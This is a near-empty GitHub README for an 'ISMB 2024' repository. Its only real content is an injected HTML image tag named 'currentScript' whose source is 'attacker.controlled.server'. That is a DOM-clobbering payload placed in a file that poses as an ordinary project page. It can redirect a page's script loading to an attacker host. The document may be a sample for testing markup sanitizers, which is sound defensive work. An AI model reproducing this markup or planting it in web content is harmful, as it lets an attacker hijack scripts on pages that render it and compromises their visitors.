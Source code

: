 # ismb2024
My ISMB 2024 GitHub Repo

<img name="currentScript" src="https://attacker.controlled.server/"></img>

